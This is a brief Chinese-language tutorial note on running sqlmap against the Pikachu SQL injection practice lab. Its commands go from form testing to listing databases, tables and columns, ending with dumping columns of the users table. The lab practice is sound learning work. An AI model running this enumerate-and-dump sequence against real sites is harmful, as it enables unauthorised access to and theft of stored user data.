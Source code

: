 # sqlmap使用

## 1.post

![sql1](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/sql1.png)

对靶场测试，post的一个注入

sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" --forms --dbs

--forms 测试表单，--dbs爆库

sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables

-D指定库 --tables爆表

sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns

-T指定表 --columns爆列



sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C 列1,列2 --dump

爆信息